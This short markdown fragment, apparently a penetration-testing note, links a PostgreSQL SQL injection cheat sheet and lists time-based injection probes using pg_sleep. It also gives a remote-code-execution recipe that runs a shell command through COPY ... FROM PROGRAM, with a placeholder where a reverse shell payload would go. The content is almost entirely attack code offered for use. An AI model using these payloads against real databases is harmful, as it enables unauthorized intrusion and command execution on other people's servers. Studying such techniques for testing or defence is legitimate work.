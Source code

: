 ##### [Cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
```sql
'select pg_sleep(3)
;select pg_sleep(3)
```

##### RCE
```sql
DROP TABLE IF EXISTS cmd_exec
CREATE TABLE cmd_exec(cmd_output text)
COPY cmd_exec FROM PROGRAM '<rev shell payload>'
SELECT * from cmd_exec
```